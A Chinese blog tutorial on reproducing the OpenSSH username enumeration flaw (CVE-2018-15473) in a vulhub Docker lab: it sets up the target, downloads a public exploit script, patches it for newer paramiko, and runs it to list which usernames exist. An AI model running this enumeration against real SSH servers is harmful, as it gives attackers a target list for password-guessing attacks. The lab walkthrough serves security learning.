 ```yaml
---
layout: post
title: "避坑版-OpenSSH 用户名枚举漏洞（CVE-2018-15473）"
date: "2023-05-20T01:05:14.105Z"
---
```

避坑版-OpenSSH 用户名枚举漏洞（CVE-2018-15473）
===================================

介绍：
---

OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机中，在复现过程中遇到了很多坑，这里我就把遇到坑和解决方法告诉大家！！！

漏洞环境：
-----

靶机：Ubuntu(vulhub)

IP：192.168.0.103

攻击机：kali

IP：192.168.0.104

漏洞复现：
-----

**1.开启环境**

    ＃cd vulhub-master/openssh/CVE-2018-15473     //进入目录
    ＃docker-compose build
    ＃docker-compose up -d      //开启环境

 ![](https://img2023.cnblogs.com/blog/2597799/202305/2597799-20230519104702058-107327940.png)

 环境启动后，我们在kali执行ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@192.168.0.103 -p20022，输入密码vulhub，即可登录到容器中，这里我就不在演示了。

**2.工具下载**

使用 **[CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)** 工具进行用户名枚举。

其中在kali里面下载

    ＃wget http://github.com/Rhynorater/CVE-2018-15473-Exploit/archive/refs/heads/master.zip      //使用wget下载
    ＃unzip master.zip      //解压

其中注意！在复制下载压缩包连接到kali下载时复制是https,可能会下载失败，这里解决方法是改成http,如果还是下载失败，建议本机下载复制到kali里。

![](https://img2023.cnblogs.com/blog/2597799/202305/2597799-20230519110206809-1204175550.png)

 **3.漏洞复现**

首先进入解压好的文件夹里，通过运行`pip install -r requirements.txt`安装依赖。

![](https://img2023.cnblogs.com/blog/2597799/202305/2597799-20230519112237583-919038967.png)

可能会出现一下报错信息

`WARNING: Running pip as the 'root' user can result in broken permissions and conflicting behaviour with the system package manager. It is recommended to use a virtual environment instead: https://pip.pypa.io/warnings/venv` 

 提示以“root”用户身份运行 pip 可能会导致权限损坏和冲突，因此我们需要创造一个虚拟的环境区执行它。

    ＃python3 -m venv tutorial-env    //创建一个虚拟环境
    ＃source tutorial-env/bin/activate   //激活环境
    
    ＃pip install -r requirements.txt   //再次安装依赖

 ![](https://img2023.cnblogs.com/blog/2597799/202305/2597799-20230519112625816-1829458934.png)

添加几个用户名到exampleInput.txt里

    root
    example
    vulhub
    nobody
    rootInvalid
    user
    phithon
    123
    321

![](https://img2023.cnblogs.com/blog/2597799/202305/2597799-20230519113153605-1293619881.png)

运行命令进行用户名枚举

    ＃python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt 192.168.0.103

会发现有报错

![](https://img2023.cnblogs.com/blog/2597799/202305/2597799-20230519113447278-1912884926.png)

`Traceback (most recent call last):`  
  `File "/root/桌面/CVE-2018-15473-Exploit-master/sshUsernameEnumExploit.py", line 33, in <module>`  
    `old_parse_service_accept = paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT]`  
                               `~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^`  
`TypeError: 'property' object is not subscriptable`  
 

 这里要修改的有三处地方，都是在\_handler\_table换成\_client\_handler\_table。

第一处在sshUsernameEnumExploit.py脚本的33行

第二处在124行

第三处在125行

![](https://img2023.cnblogs.com/blog/2597799/202305/2597799-20230519114226908-916753906.png)

![](https://img2023.cnblogs.com/blog/2597799/202305/2597799-20230519114200407-1822493520.png)

 在运行脚本

    ＃python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt 192.168.0.103

可以看到成功枚举出用户名

![](https://img2023.cnblogs.com/blog/2597799/202305/2597799-20230519114326960-184676465.png) 

 可见，`root`、`example`、`vulhub`、`nobody`是存在的用户，`rootInvalid`、`user`、`phithon`、123、321是不存在的用户。